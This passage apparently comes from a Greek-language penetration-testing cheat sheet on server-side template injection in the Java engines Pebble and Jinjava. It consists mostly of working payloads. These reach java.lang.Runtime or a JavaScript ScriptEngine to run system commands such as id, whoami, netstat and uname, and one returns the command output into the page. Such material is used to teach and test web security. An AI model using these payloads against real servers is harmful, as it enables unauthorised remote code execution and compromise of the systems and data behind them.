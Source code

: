 {% content-ref url="el-expression-language.md" %}
[el-expression-language.md](el-expression-language.md)
{% endcontent-ref %}

### Pebble (Java)

* `{{ someString.toUPPERCASE() }}`

Παλαιά έκδοση του Pebble ( < έκδοση 3.0.9):
```java
{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la') }}
```
Νέα έκδοση του Pebble :
```java
{% raw %}
{% set cmd = 'id' %}
{% endraw %}




{% set bytes = (1).TYPE
.forName('java.lang.Runtime')
.methods[6]
.invoke(null,null)
.exec(cmd)
.inputStream
.readAllBytes() %}
{{ (1).TYPE
.forName('java.lang.String')
.constructors[0]
.newInstance(([bytes]).toArray()) }}
```
### Jinjava (Java)
```java
{{'a'.toUpperCase()}} would result in 'A'
{{ request }} would return a request object like com.[...].context.TemplateContextRequest@23548206
```
Jinjava είναι ένα έργο ανοιχτού κώδικα που αναπτύχθηκε από την Hubspot, διαθέσιμο στο [https://github.com/HubSpot/jinjava/](https://github.com/HubSpot/jinjava/)

**Jinjava - Εκτέλεση εντολών**

Διορθώθηκε από [https://github.com/HubSpot/jinjava/pull/230](https://github.com/HubSpot/jinjava/pull/230)
```java
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"whoami\\\"); x.start()\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"netstat\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}

{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"var x=new java.lang.ProcessBuilder; x.command(\\\"uname\\\",\\\"-a\\\"); org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\")}}
```
**Περισσότερες πληροφορίες**
